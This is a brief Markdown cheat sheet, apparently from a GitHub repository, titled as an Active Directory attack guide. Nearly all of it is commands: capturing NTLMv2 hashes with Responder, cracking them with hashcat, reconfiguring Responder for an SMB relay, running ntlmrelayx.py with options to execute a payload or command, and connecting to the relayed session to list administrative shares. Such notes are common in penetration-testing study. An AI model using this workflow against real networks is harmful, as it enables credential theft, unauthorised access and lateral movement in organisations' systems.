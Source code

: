 ## Active Directory Attack Guide.

#### Capture NTLMv2 Hashes
```
sudo responder -I eth0 - rdwv
```
#### Crack with Hashcat
```
hashcat -m 5600 hash rockyou.txt
```

#### Edit the Responder Config File for SMB Relay Attack
```
nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

```
sudo responder -I eth0 - rdwv
```
```
ntlmrelayx.py -tf targets.txt -smb2support -i 
-i -- intercative
-e -- execute payload (test.exe)
-c -- run a command (whoami)
```

```
nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```


